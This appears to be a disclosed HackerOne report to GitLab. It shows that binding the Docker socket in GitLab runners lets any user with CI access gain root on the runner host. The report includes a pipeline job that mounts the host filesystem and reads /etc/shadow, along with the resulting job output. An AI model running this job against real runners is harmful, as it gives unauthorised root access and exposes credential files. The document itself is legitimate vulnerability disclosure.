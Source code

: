 # Installing Gitlab runner with Docker-In-Docker allows root access

## Report Details
- **Report ID**: 1417211
- **URL**: https://hackerone.com/reports/1417211
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-12-05T16:06:44.086Z
- **Disclosed**: 2022-02-10T09:13:05.182Z

## Reporter
- **Username**: jafarakhondali
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

Installing a Gitlab runner using official documents: https://docs.gitlab.com/ee/ci/docker/using_docker_build.html#use-docker-socket-binding
allows any user with access to Gitlab CI to have root access on Gitlab Runner server.

### Steps to reproduce
Install Gitlab-runner binary using official documents and run Docker-in-Docker:
```
sudo gitlab-runner register -n \
  --url https://gitlab.com/ \
  --registration-token REGISTRATION_TOKEN \
  --executor docker \
  --description "My Docker Runner" \
  --docker-image "docker:19.03.12" \
  --docker-volumes /var/run/docker.sock:/var/run/docker.sock
```  
Then set "exploiter" tag for runner, and in a project that have access to this runner, enter following pipeline:
```
stages:
  - exploiter
exploiter:
    stage: exploiter
    when: manual
    tags:
      - exploiter
    script:
      - docker run --rm  --net=host --pid=host --ipc=host --volume /:/host ubuntu bash -c "cat /host/etc/shadow"
```
and run the job.

### Impact
Allows root access on Gitlab-runner server

### What is the current *bug* behavior?
Sample output of job allows reading /etc/shadow of server.
```
Running with gitlab-runner 14.5.1 (de104fcd)
  on My Docker Runner 4j_ZSXte
Preparing the "docker" executor 00:04
Using Docker executor with image docker:19.03.12 ...
Pulling docker image docker:19.03.12 ...
Using docker image sha256:81f5749c9058a7284e6acd8e126f2b882765a17b9ead14422b51cde1a110b85c for docker:19.03.12 with digest docker@sha256:d41efe7ad0df5a709cfd4e627c7e45104f39bbc08b1b40d7fb718c562b3ce135 ...
Preparing environment 00:02
Running on runner-4jzsxte-project-28249719-concurrent-0 via ubuntu-g1-1-1-25-su-1...
Getting source from Git repository 00:03
Fetching changes with git depth set to 50...
Reinitialized existing Git repository in /builds/foroozan2/barika/.git/
Checking out e64249e2 as main...
Skipping Git submodules setup
Executing "step_script" stage of the job script 00:10
Using docker image sha256:81f5749c9058a7284e6acd8e126f2b882765a17b9ead14422b51cde1a110b85c for docker:19.03.12 with digest docker@sha256:d41efe7ad0df5a709cfd4e627c7e45104f39bbc08b1b40d7fb718c562b3ce135 ...
$ docker run --rm --privileged --net=host --pid=host --ipc=host --volume /:/host ubuntu bash -c "cat /host/etc/shadow"
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
7b1a6ab2e44d: Pulling fs layer
7b1a6ab2e44d: Verifying Checksum
7b1a6ab2e44d: Download complete
7b1a6ab2e44d: Pull complete
Digest: sha256:626ffe58f6e7566e00254b638eb7e0f3b11d4da9675088f4781a50ae288f3322
Status: Downloaded newer image for ubuntu:latest
root:*:18438:0:99999:7:::
daemon:*:18438:0:99999:7:::
bin:*:18438:0:99999:7:::
sys:*:18438:0:99999:7:::
sync:*:18438:0:99999:7:::
games:*:18438:0:99999:7:::
man:*:18438:0:99999:7:::
lp:*:18438:0:99999:7:::
mail:*:18438:0:99999:7:::
news:*:18438:0:99999:7:::
uucp:*:18438:0:99999:7:::
proxy:*:18438:0:99999:7:::
www-data:*:18438:0:99999:7:::
backup:*:18438:0:99999:7:::
list:*:18438:0:99999:7:::
irc:*:18438:0:99999:7:::
gnats:*:18438:0:99999:7:::
nobody:*:18438:0:99999:7:::
systemd-network:*:18438:0:99999:7:::
systemd-resolve:*:18438:0:99999:7:::
systemd-timesync:*:18438:0:99999:7:::
messagebus:*:18438:0:99999:7:::
syslog:*:18438:0:99999:7:::
_apt:*:18438:0:99999:7:::
tss:*:18438:0:99999:7:::
uuidd:*:18438:0:99999:7:::
tcpdump:*:18438:0:99999:7:::
sshd:*:18438:0:99999:7:::
landscape:*:18438:0:99999:7:::
pollinate:*:18438:0:99999:7:::
systemd-coredump:!!:18966::::::
ubuntu:!:18966:0:99999:7:::
lxd:!:18966::::::
gitlab-runner:!:18966:0:99999:7:::
```

### What is the expected *correct* behavior?

Although this issue may be known to Gitlab team, there is no security warning in documents for not binding docker socket, or at least use it only on trusted servers. Currently I'm encountering many clients that were not aware of this security issue and were thinking they've provided isolation in their teams. Such issue allows a remote attacker to malform CI process and have access to sensitive data.
Gitlab documents should inform users for such vulnerability and provide documents on alternative-safe methods to use Dind such as rootless docker.

## Impact

An attacker can have access to projects and their sensitive data running in Gitlab-CI by having root access of Gitlab server. Many projects store credentials in their CI process, allowing the Gitlab runner to have access to their production environment.

## Attachments
No attachments
